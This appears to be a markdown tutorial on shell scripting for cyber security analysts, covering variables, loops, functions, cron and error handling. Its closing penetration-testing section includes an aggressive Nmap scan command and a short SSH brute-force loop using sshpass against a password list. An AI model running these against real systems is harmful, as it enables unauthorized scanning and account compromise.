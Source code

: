 
# Shell Scripting for Cyber Security Analysts

Shell scripting is a vital tool for automating, securing, and managing systems. Below is a comprehensive guide from basic to advanced shell scripting concepts, covering key topics for cyber security analysts.

---

## **1. Basic Shell Scripting Concepts**

### **1.1 Shell Types**
There are several types of shells, but the most commonly used are:
- **Bourne Shell (sh)**: Basic shell.
- **Bash Shell (bash)**: Popular in Linux environments.
- **Z Shell (zsh)**: Similar to bash but with additional features.

```bash
#!/bin/bash
echo "Running shell: $SHELL"
```

### **1.2 Variables in Shell**
Variables store data values that can be reused.

```bash
#!/bin/bash
username="admin"
echo "Logged in as $username"
```

### **1.3 Input/Output Redirection**
Direct input and output of commands using redirection.

```bash
#!/bin/bash
# Output to a file
echo "Log this message" > logfile.txt
```

### **1.4 Pipes and Filters**
Pipes (`|`) are used to send the output of one command as input to another.

```bash
#!/bin/bash
# Pipe output from one command to another
cat file.txt | grep "error" | sort
```

---

## **2. Intermediate Shell Scripting**

### **2.1 Conditional Statements**

```bash
#!/bin/bash
# If-else condition
if [ -f "/etc/passwd" ]; then
    echo "File exists"
else
    echo "File does not exist"
fi
```

### **2.2 Loops**

#### **For loop**:
```bash
#!/bin/bash
for i in {1..5}; do
    echo "Iteration $i"
done
```

#### **While loop**:
```bash
#!/bin/bash
count=1
while [ $count -le 5 ]; do
    echo "Count: $count"
    count=$((count+1))
done
```

### **2.3 Functions**

```bash
#!/bin/bash
# Defining a function
greet() {
    echo "Hello, $1"
}
greet "Cyber Analyst"
```

---

## **3. Advanced Shell Scripting**

### **3.1 Process Management**
```bash
#!/bin/bash
# Start a background process
sleep 100 &
jobs
```

### **3.2 Signal Handling**
Handle interrupts like `SIGINT` (Ctrl+C).

```bash
#!/bin/bash
trap "echo 'Interrupt signal received'" SIGINT
while true; do
    echo "Press Ctrl+C to stop"
    sleep 1
done
```

### **3.3 File Manipulation**

```bash
#!/bin/bash
# Compressing files
tar -czf backup.tar.gz /path/to/directory
```

### **3.4 Regular Expressions with `sed` and `awk`**
```bash
# Using sed for replacing text
sed 's/oldtext/newtext/g' file.txt

# Using awk for text processing
awk '{print $1}' file.txt
```

---

## **4. Expert Shell Scripting Techniques**

### **4.1 Error Handling and Debugging**

```bash
#!/bin/bash
# Error handling
cp file1.txt file2.txt
if [ $? -eq 0 ]; then
    echo "Copy successful"
else
    echo "Copy failed"
fi

# Debugging mode
set -x
echo "This is a debugging example"
```

### **4.2 Scheduling Tasks with `cron`**

```bash
# Open crontab editor
crontab -e
# Add cron job to run daily at 3AM
0 3 * * * /path/to/script.sh
```

### **4.3 Security Scripting**

```bash
#!/bin/bash
# Generate a random password
openssl rand -base64 12
```

---

## **5. Best Practices in Shell Scripting**

### **5.1 Script Documentation**
```bash
#!/bin/bash
# Script purpose: This script performs X and Y
```

### **5.2 Error Logging**
```bash
#!/bin/bash
# Redirect errors to a log file
command 2> error.log
```

### **5.3 Security Considerations**
- Validate user inputs.
- Use full command paths (e.g., `/usr/bin/ls`).
- Limit script permissions for better security.

---

## **6. Shell Scripting in Penetration Testing**

### **6.1 Nmap Automation**
```bash
#!/bin/bash
# Automate Nmap scan
nmap -A 192.168.1.1 -oN scan_results.txt
```

### **6.2 Brute-Force Password Attempts**
```bash
#!/bin/bash
# Brute-force SSH login (for educational purposes only)
while read password; do
    if sshpass -p $password ssh user@target "exit"; then
        echo "Password found: $password"
        break
    fi
done < passwords.txt
```

---

Mastering shell scripting for cyber security not only enables task automation but also enhances incident handling, penetration testing, system hardening, and proactive security monitoring.
